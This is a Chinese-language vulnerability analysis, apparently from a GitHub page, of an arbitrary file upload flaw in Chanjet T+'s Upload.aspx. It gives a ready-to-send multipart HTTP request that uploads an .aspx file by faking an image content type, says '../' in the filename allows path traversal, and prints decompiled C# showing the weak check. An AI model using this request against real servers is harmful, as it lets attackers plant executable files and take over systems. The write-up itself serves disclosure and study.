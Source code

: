 漏洞位于`/SM/SetupAccount/Upload.aspx`，打开文件会显示“这是预编译工具生成的标记文件，不应删除”。找到预编译文件对应的compiled文件`download.aspx.xxx.compiled`。根据文件中的`assembly="App_Web_upload.aspx.9475d17f"`找到对应的编译之后的dll文件。

```
<?xml version="1.0" encoding="utf-8"?>
<preserve resultType="3" virtualPath="/WebSite/SM/SetupAccount/Upload.aspx" hash="16f32931f" filehash="8aff27fcb5b4a92d" flags="110000" assembly="App_Web_upload.aspx.9475d17f" type="ASP.sm_setupaccount_upload_aspx">
    <filedeps>
        <filedep name="/WebSite/SM/SetupAccount/Upload.aspx" />
        <filedep name="/WebSite/SM/SetupAccount/Upload.aspx.cs" />
    </filedeps>
</preserve>
```

请求包如下

```
POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1
Host: ip:port
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywwk2ReqGTj7lNYlt
Content-Length: 184

------WebKitFormBoundarywwk2ReqGTj7lNYlt
Content-Disposition: form-data; name="File1";filename="test.aspx"
Content-Type: image/jpeg

1
------WebKitFormBoundarywwk2ReqGTj7lNYlt--
```

响应200，并且可以在`/Chanjet/TPlusPro/WebSite/SM/SetupAccount/images`中看到相应的aspx文件。可以在filename中用`../`跨目录。

在Rider中打开该dll的`<Root Namespace>`，找到`Page_Load()`方法下的内容，

```C#
protected void Page_Load(object sender, EventArgs e)
  {
    this.ReadResources();
    if (this.Request.Files.Count != 1)
      return;
    string str1 = "images/index.gif";
    object obj = this.ViewState["fileName"];
    if (obj != null)
      str1 = obj.ToString();
    if (this.File1.PostedFile.ContentLength > 204800)
      this.Response.Write("<script language='javascript'>alert('" + this.PhotoTooLarge + "'); parent.document.getElementById('myimg').src='" + str1 + "';</script>");
    else if (this.File1.PostedFile.ContentType != "image/jpeg" && this.File1.PostedFile.ContentType != "image/bmp" && this.File1.PostedFile.ContentType != "image/gif" && this.File1.PostedFile.ContentType != "image/pjpeg")
    {
      this.Response.Write("<script language='javascript'>alert('" + this.PhotoTypeError + "'); parent.document.getElementById('myimg').src='" + str1 + "';</script>");
    }
    else
    {
      string fileName = this.File1.PostedFile.FileName;
      string str2 = fileName.Substring(fileName.LastIndexOf('\\') + 1);
```